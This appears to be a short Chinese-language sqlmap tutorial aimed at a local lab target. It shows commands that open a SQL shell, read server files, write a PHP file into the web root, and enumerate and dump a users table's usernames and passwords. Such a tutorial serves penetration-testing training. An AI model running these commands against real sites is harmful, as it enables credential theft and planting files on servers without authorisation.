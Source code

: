 执行sql语句

```
sqlmap.py -u "http://127.0.0.1/showproducts.php?id=13" --sql-shell

--sql-shell
#执行sql语句
```

读取文件

```
sqlmap.py -u "http://127.0.0.1/showproducts.php?id=13" --file-read="C:\phpStudy\WWW\index.php"

--file-read="C:\phpStudy\WWW\index.php"
#读取文件
```

写入文件

```
sqlmap.py -u "http://127.0.0.1/showproducts.php?id=13" --file-write="C:\1.php" --file-dest="C:\phpStudy\WWW\xxx.php"

--file-write="C:\1.php" --file-dest="C:\phpStudy\WWW\xxx.php"
#写入文件
```



### kali版本sqlmap的标准用法：

```
sqlmap -u [目标url] --dbs
#获取目标网站的库名
#发现security库

sqlmap -u [目标url] -D security --tables
#获取库里的表
#发现users表的列

sqlmap -u [目标url] -D security -T users --columns
#发现id username password

#找到id,username,password的内容
sqlmap -u [目标url] -D security -T users -C username,password --dump
```



**完整版命令**：

```css
sqlmap -u [目标url] --dbs --batch --threads 10 --technique U
#使用sqlmap的10线程，batch忽略错误，使用union select注入目标网站
```



